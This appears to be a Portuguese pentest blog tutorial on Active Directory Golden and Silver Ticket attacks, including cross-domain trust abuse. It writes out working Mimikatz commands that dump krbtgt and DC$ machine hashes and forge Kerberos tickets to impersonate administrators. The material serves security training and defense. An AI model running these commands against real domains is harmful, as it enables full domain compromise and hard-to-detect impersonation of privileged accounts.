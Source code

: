```yaml
---
title: "Active Directory - Explorando Trusts - Tickets"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden.png)

# Tickets

Agora vamos abordar outro ponto a exploração. Vamos partir pra criação dos famosos Golden e Silver tickets. A foto de capa do post é análoga ao Willy Wonka, com um Golden Ticket da acessos ao personagem, do mesmo modo em um AD, um Golden Ticket nos da acesso que teoricamente não deveriamos ter, acesso à máquinas, arquivos e o mais importante *Domain Controllers*!

# Golden Ticket

Um Golden Ticket é um token de autenticação do Kerberos para o KRBTGT, que pode ser usado junto com o pass-the-hash para logar em qualquer conta, habilitando o atacante a se mover por toda a rede.

# Silver Ticket

Mas que diabos então é um Silver Ticket?

Silver tickets são tipos de Golden Tickets, isso mesmo, que são feito para se autenticar em serviços específicos. Esses tickets podem ser forjados a partir de senhas crackeadas de usuários, que são usadas para gerar os tickets falsos.

Os Silver Tickets são mais difíceis de detectar, tendo em vista que não há comunicação entre o serviço e o DC, todo log ficará no computador em que foi comprometido, dificultando e muito a detecção!

# Como criar Golden Tickets?

Primeiro o atacante deve ter tomado controle de um DC, pra sendo assim poder extrair o hash do KRBTGT

Uma vez dentro da máquina, realizamos a extração do hash do krbtgt

`Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject /name:krbtgt"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden1.png)

Após extraido podemos utilizar ele na nossa host mesmo para a criação do golden ticket

Aqui no caso eu criei um usuário que não existe, só pra comprovar que o ataque realmente funciona

`kerberos::golden /domain:xxx.local /sid:S-1-5-21-3965405831... /rc4:c6d349.... /user:newAdmin /id:500 /ptt`

```
/domain – o FQDN.

/sid – o SID do dominio.

/user – a conta que será impersonificada.

/id – o RID da conta que será impersonificada. Vou usar 500, pq esse é o default do administrator.

/ptt – vai injetar o ticket direto nessa seção

/rc4 – o hash do krbtgt
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden2.png)

Show... Esse foi um dos exemplos, outro que vou citar agora vai ser o foco desse post, que é que podemos explorar os trusts entre Domains com o Golden Ticket, whaat? Isso mesmo, acredita!

# Explorando Trust Domains

A ideia aqui é acessar servidores que não deveriamos ter acesso de modo algum, contudo entre os Forests sempre (ou quase sempre) há relação de confiança, os chamados Trusts, e vamos lá, se um forest confia no outro, ele vai dar acesso, se nós conseguimos nos passar por um forest, o outro vai aceitar a conexão... simples, não?

Para conseguir esses SIDs para podermos explorar a relação de confiança, iremos utilizar o `PowerView_dev.ps1` com os comandos listados:

```
FILHO - Get-DomainSID
PAI - Get-DomainSID -Domain funcorp.local
```

O que é pai e filho? Pai seria por exemplo o `abc.def.local`, o filho seria o `def.local`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden3.png)

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DOMINIO_FILHO /sid:SID DO DOMINIO FILHO /krbtgt:HASH DO KRBTGT /sids:SID DO DOMINIO PAI /ptt"'`

```
/user:Usuário

/domain:dominio que estou (filho) 

/sid:sid do FILHO 

/krbtgt:hash do KRBTGT

/sids:sid do PAI

/ptt
```

Executamos o ataque!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden4.png)

Pronto! Assim exploramos também o Trust Domain com o Golden Ticket, ou seja, se conseguimos o hash do KRBTGT, acabou!

Agora vamos partir pros ataques de Silver Ticket

# Como criar Silver Tickets?

A ideia é praticamente a mesma do golden ticket, só que ao invés de tickets para a seção como um todo, vamos criar somente para alguns serviços específicos, a base do comando é a mesma, então vou me furtar a discriminar como obter cada dado

Primeiro verificamos que não temos acesso ao servidor DC

`gwmi -Class win32_operatingsystem -ComputerName dc.local`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/silver.png)

Diferente do Golden Ticket, no silver ticket nós devemos ter o hash da máquina pra poder realizar o ataque, uma vez que vamos criar um TGS válido para aquela máquina em específico.

Então, após ter o controle da máquina, com o Mimikatz nós extraimos o hash do DC$

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/silver1.png)

Realizamos o Silver Ticket

`Invoke-Mimikatz -Command '"kerberos::golden /domain:xxxxx.local /sid:S-1-5-21-3965405831-1015596948-2589850225 /target:dc.xx.local /service:HOST /rc4:hash do DC$ /user:Administrator /ptt"'`

```
/domain:domínio que estou

/sid:sid do domínio (Get-DomainSid)

/target:a máquina alvo, no caso o DC

/service:o serviço que vou explorar

/rc4:o hash do DC$

/user:o usuário que vou impersonificar

/ptt:pra injetar de imediato o ticket
```

Aqui no caso eu quero explorar o `tasks` dele, pra poder agendar uma task e executar ela... mas isso pode ser revertido pra qualquer serviço que eu queira

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/silver2.png)

Pronto, esse foi o ataque de silver ticket. Terminamos por aqui a exploração dos tickets.